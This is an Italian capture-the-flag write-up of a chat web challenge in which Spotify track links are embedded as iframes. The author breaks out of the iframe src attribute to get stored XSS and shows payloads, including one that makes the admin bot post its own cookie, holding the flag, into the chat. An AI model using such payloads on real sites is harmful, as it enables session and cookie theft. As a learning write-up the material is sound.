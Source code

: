 - La challenge si presenta come una chat tra persono in cui la caratteristica principale è che possiamo inviare anche dei link di traccie spotify che tramite API vengono embeddate nella pagina con un player (tramite un tag iframe)
- La prima cosa che noto è che c'è un tasto notify vicino alla chat con l'admin il che mi ha subito fatto pensare ad una XSS
	- Controllando nel codice il tasto notify fa eseguire delle operazioni scriptate all'admin (è un bot). Le azioni sono le seguenti
```python
'actions': [
	
	{
	
		'type': 'request',
		
		'method': 'POST',
		
		'url': f'http://{WEB_DOM}/api/v1/session',
	
	'headers': {
	
		'Content-Type': 'application/json'
	
	},
	
		'data': f'{{"username":"admin","password":"{ADMIN_PASSWORD}"}}'
	
	},
	
	{
	
	'type': 'request',
	
	'url': f'http://{WEB_DOM}/chat/{session["user"]}',
	
	'timeout': 5
	
	},
	
	{
	
		'type': 'set-cookie',
		
		'name': 'flag',
		
		'value': os.getenv('FLAG', 'CCIT{REDACTED}'),
		
	},
	
	{
	
		'type': 'click',
		
		'element': '#loadChat'
	
	},
	
	{
	
		'type': 'sleep',
		
		'time': 5
	
	}

]
```
- Interessante prima carica la sessione, successivamente setta il cookie con la flag e infine carica la chat 
	- Da qui ho la conferma dell'XSS
- Come posso fare inj di codice javascript? Per prima cosa vado a vedere come viene renderizzato l'html di un semplice messaggio
	- Quello che noto è che il messaggio viene inserito in un normalissimo div
	- Provando a chiudere prematuramente il tag con un qualcosa del tipo `><script>...` notiamo che lo script viene parsato correttamente
		- Come fa il parsing dei messaggi? Osserviamo il codice
```js

function escapeHtml(html) {

	const text = document.createTextNode(html);
	
	const p = document.createElement('p');
	
	p.appendChild(text);
	
	return p.innerHTML;

}

function markdownify(input) {
	
	// Sanitize input
	
	input = escapeHtml(input);
	
	// Links
	
	input = input.replace(/\(([^\(\)\s]+)\)\[([^\[\]]+)\]/g, (match, url, text) => {
	
	if (url.startsWith('https://open.spotify.com/track/')) {
	
	return `</div><iframe sandbox="allow-scripts allow-same-origin" width="100%" height="80" frameBorder="0" allow="encrypted-media" src="${url.replace(
	
	'https://open.spotify.com/track/',
	
	'https://open.spotify.com/embed/track/'
	
	)}"></iframe><div class="message">`;
	
	}
	
	return `<a target="_blank" href="${url}">${text}</a>`;
	
	});
	
	
	// Bold text
	
	input = input.replace(/(^|\W)\*\*([A-Za-z0-9\s]+)\*\*($|\W)/g, '$1<strong>$2</strong>$3');
	
	  
	// Italic text
	
	input = input.replace(/(^|\W)_([A-Za-z0-9\s]+)_($|\W)/g, '$1<em>$2</em>$3');
  
	
	// New line
	
	input = input.replace(/\n/g, '<br />');
		
	return input;

}
```
- Quello che notiamo è che indipendentemente dal codice viene mandato in pasto alla funzione createTextNode inibisce ogni tentativo di interpretazione del nostro codice come html
- Non demordiamo e vediamo che per fare il loading del player l'url della canzone viene inserito nel tag iframe nel parametro src
	- Quello che dobbiamo fare in questo caso è inserire un url che matchi con la regex e che riesca ad aggiungere del codice aggiuntivo a quel tag
```js
'<iframe src="${url}">'
```
- Abbreviato il contesto è quello sopra, quindi se io riesco a inserire un url come "onload="alert`1`"
	- SBAMM abbiamo una stored XSS
-  Ora c'è da capire ottenere il cookie
	- Il primo tentativo che ho provato è stato con una fetch ad un mio web server che però ha miseramente fallito. La richiesta veniva bloccata causa content security policy
	- L'altra soluzione è che sia l'admin ad inviarmi il messaggio con il cookie
		- Per farlo controllo il codice e quello che noto è per l'invio di messaggi mi basta invocare una funzione js sendMessage 
		- Lo script a questo punto è presto fatto "onload="sendMessage'${document.cookie}'"
>flag=CCIT{n3v3r_g0Nn4_m4rK_y0U_D0wn}
> sostituire i singoli apici con i backtick




